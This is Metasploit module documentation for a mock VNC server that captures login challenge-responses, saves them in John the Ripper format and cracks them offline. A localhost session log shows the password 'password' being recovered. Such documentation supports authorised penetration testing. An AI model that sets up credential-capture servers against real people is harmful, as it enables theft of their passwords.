 This module creates a mock VNC server which accepts credentials.  Upon receiving a login attempt, an `Authentication failure` error is thrown.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/server/capture/vnc```
  3. Do: ```run```

## Options

  **CHALLENGE**

  The 16 byte challenge used in the authentication.  Default is `00112233445566778899aabbccddeeff`.

  **JOHNPWFILE**

  Write a file containing a John the Ripper format for cracking the credentials.  Default is ``.

  **SSL**

  Boolean if SSL should be used.  Default is `False`.

  **SSLCert**

  File path to a combined Private Key and Certificate file.  If not provided, a certificate will be automatically
  generated.  Default is ``.

## Scenarios

### VNC with vncviewer and JTR Cracking

Server, Client:

```
msf > use auxiliary/server/capture/vnc 
msf auxiliary(server/capture/vnc) > use auxiliary/server/capture/vnc 
msf auxiliary(server/capture/vnc) > set johnpwfile /tmp/john
johnpwfile => /tmp/john
msf auxiliary(server/capture/vnc) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(server/capture/vnc) > 
[*] Started service listener on 0.0.0.0:5900 
[*] Server started.

msf auxiliary(server/capture/vnc) > vncviewer 127.0.0.1
[*] exec: vncviewer 127.0.0.1

Connected to RFB server, using protocol version 3.7
Performing standard VNC authentication
Password: 
Authentication failure

[+] 127.0.0.1:40240 - Challenge: 00112233445566778899aabbccddeeff; Response: b7b9c87777661a7a2299733209bfdfce
```

John the Ripper (JTR) Cracker:

```
msf auxiliary(server/capture/vnc) > john /tmp/john_vnc
[*] exec: john /tmp/john_vnc

Using default input encoding: UTF-8
Loaded 1 password hash (VNC [DES 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (?)
1g 0:00:00:00 DONE 2/3 (2018-11-11 20:38) 25.00g/s 75.00p/s 75.00c/s 75.00C/s password
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
